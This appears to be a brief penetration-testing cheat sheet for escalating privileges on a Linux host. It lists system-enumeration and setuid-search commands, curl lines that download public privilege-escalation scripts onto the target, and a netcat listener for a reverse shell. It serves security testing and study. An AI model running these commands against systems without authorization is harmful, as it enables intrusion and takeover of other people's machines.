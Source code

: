 # Inside Linux host

http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

### Get system information
```bash
cat /etc/lsb-release
cat /etc/redhat-release
uname -a
cat /proc/version
```

### Find setuid files
```bash
find / -perm -4000 -exec ls -ldb {} \; 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
```

### Setuid dumpable
https://serverfault.com/questions/56800/on-redhat-what-does-kernel-suid-dumpable-1-mean#56818
```bash
cat /proc/sys/fs/suid_dumpable
```

### Quick post-exploitation checks
* https://github.com/rebootuser/LinEnum
* http://www.securitysift.com/download/linuxprivchecker.py
* https://github.com/InteliSecureLabs/Linux_Exploit_Suggester
* https://github.com/inquisb/miscellaneous
* https://github.com/pentestmonkey/unix-privesc-check
```bash
# Via curl
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -o LinEnum.sh
curl http://www.securitysift.com/download/linuxprivchecker.py -o linuxprivchecker.py
curl https://raw.githubusercontent.com/InteliSecureLabs/Linux_Exploit_Suggester/master/Linux_Exploit_Suggester.pl -o Linux_Exploit_Suggester.pl
curl https://raw.githubusercontent.com/inquisb/miscellaneous/master/linux-exploit-checker.py -o linux-exploit-checker.py
curl https://raw.githubusercontent.com/pentestmonkey/unix-privesc-check/1_x/unix-privesc-check -o unix-privesc-check
```

### Reverse shell
```bash
nc -vnlp <port>
```
